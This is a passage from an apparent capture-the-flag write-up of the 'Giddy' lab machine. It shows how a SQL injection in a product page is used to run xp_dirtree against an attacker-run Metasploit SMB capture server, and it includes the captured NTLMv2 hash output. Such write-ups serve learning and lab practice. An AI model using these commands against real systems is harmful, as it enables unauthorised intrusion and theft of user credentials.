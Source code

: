 Sounds like we have same website on port 80 and on port 443.

### 2.Getting User
We have found 2 interesting pages.
{% highlight shell %}
/remote -> redirects to Windows Powershell Web Access
/mvc    -> product list page
{% endhighlight %}

Product List page:
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-02-27/2019-02-26-21-09-32.png)

If we click each product of this list, we can redirect to following url like this.

{% highlight shell %}
http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18
{% endhighlight %}

And, if we add a single quote end of this url, we can get this error

![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-02-27/2019-02-26-19-00-57.png)

This means that Product.aspx has SQL injection vulnerability.<br>
In this case, we can actually use an undocumented stored procedure for MSSQL to steal SMB credentials.<br>
At first, we have to run our own SMB server to receive connection. We can do this with Metasploit module.

{% highlight shell %}
msf5 > use auxiliary/server/capture/smb
msf5 auxiliary(server/capture/smb) > set johnpwfile /root/pw.txt
johnpwfile => /root/pw.txt
msf5 auxiliary(server/capture/smb) > set srvhost 10.10.14.23
srvhost => 10.10.14.23
msf5 auxiliary(server/capture/smb) > run
[*] Auxiliary module running as background job 0.

[*] Started service listener on 10.10.14.23:445 
[*] Server started.
{% endhighlight %}

Then, open sql-shell with sqlmap and execute command "xp_dirtree".<br>

{% highlight shell %}
root@kali:~# sqlmap -u http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18 --sql-shell

~~~

sql-shell> EXEC master..xp_dirtree '\\10.10.14.23\baa,foo'
[19:14:59] [WARNING] reflective value(s) found and filtering out
EXEC master..xp_dirtree '\\10.10.14.23\baa,foo':    'NULL'
sql-shell>
{% endhighlight %}

Then, we can receive some SMB connections from Giddy.<br>

{% highlight shell %}
msf5 auxiliary(server/capture/smb) > [*] SMB Captured - 2019-02-26 20:51:20 +0200
NTLMv2 Response Captured from 10.10.10.104:49723 - 10.10.10.104
USER:Stacy DOMAIN:GIDDY OS: LM:
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:Disabled
NTHASH:79b0c0199a0ea376964a588b6e689534 
NT_CLIENT_CHALLENGE:0101000000000000d45342d902ced40113e8c7ee19074eb600000000020000000000000000000000
[*] SMB Captured - 2019-02-26 20:51:20 +0200
NTLMv2 Response Captured from 10.10.10.104:49723 - 10.10.10.104
~~~